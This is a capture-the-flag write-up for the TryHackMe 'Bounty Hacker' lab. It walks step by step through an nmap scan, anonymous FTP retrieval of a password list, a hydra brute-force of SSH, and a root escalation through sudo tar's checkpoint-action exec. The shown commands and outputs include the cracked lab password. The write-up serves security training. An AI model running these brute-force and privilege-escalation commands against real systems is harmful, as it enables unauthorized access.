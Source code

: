 ![](Images/rCDF5u6.png)
Always start with a nmap scan. 
```
# Nmap 7.91 scan initiated Thu Jun 10 16:35:31 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.55.156
Nmap scan report for 10.10.55.156
Host is up (0.18s latency).
Not shown: 968 filtered ports, 29 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.182
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 16:36:32 2021 -- 1 IP address (1 host up) scanned in 60.59 seconds

```
We have port 21 FTP which is anonymous login allowed, 22 SSH with ubuntu running and 80 HTTP open. Let's see whats in the website.

![](Images/web.png)

Nothing interesting from this webpage. 

# Who wrote the task list?
Let's see what we have in FTP server. 
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ftp 10.10.55.156
Connected to 10.10.55.156.
220 (vsFTPd 3.0.3)
Name (10.10.55.156:visith): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: task.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (6.0500 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (123.4317 kB/s)
ftp> exit
221 Goodbye.
```
In task.txt file :
```plain
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
In locks.txt file we found some lists of words looks like passwords.

Answer is the **lin**.
# What service can you bruteforce with the text file found?

Answer must be '**SSH**' any other service we haven't found.

# What is the users password? 

Let's try to bruteforce the ssh service with **hydra**. Here is my command to hydra.

```bash
hydra -l lin -P locks.txt ssh://10.10.55.156:22 | tee scans/hydra-output
```
My hydra output was :
* login: lin 
* password: RedDr4gonSynd1cat3

```plain
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 16:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.55.156:22/
[22][ssh] host: 10.10.55.156   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 16:50:46
```
# user.txt
Let's login into *lin* user.
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ssh lin@10.10.55.156
The authenticity of host '10.10.55.156 (10.10.55.156)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.55.156' (ECDSA) to the list of known hosts.
lin@10.10.55.156's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{************}
```
# root.txt

Before run any enumeration scripts I like to look into **sudo -l**. Here what I found.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
**tar** is allowed to run as superuser. Let's see our friend *GTFObins* what got here is link to documentation.
https://gtfobins.github.io/gtfobins/tar/

![](Images/gtfobins.png)

I change this little bit.
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
I change /bin/sh to /bin/bash to get a good looking shell.
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
[sudo] password for lin: 
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
THM{**********}
```
Thx for the reading !!

![](../Chocolate-factory/Images/giphy.gif)